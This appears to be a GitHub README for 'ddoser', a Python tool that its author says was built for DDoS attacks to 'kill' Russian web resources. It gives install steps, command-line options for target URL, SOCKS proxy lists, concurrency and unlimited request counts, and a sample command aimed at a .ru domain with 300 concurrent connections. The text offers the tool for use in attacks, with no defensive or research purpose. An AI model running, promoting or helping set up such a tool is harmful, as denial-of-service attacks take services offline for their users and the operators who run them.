 # The ddoser
Small application for ddos attack, was developed special for kill russian's resources :)  
## Install 
```shell
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT      ddos target url  [required]
  --proxy-url TEXT       url to proxy resourse
  --proxy-file TEXT      path to file with proxy list
  --concurrency INTEGER  concurrency level
  --count INTEGER        requests count
  --timeout INTEGER      requests timeout
  --verbose              Show verbose log
  --help                 Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
...
ipN:portN#sock4
```
### Example cmd
```shell
./ddoser.py --target-url https://some-domain.ru/ --concurrency 300 --timeout 60 --proxy-file proxy.list --count 0
```
## Note
**ddoser** supports only sock proxy, also can start it directly without proxy
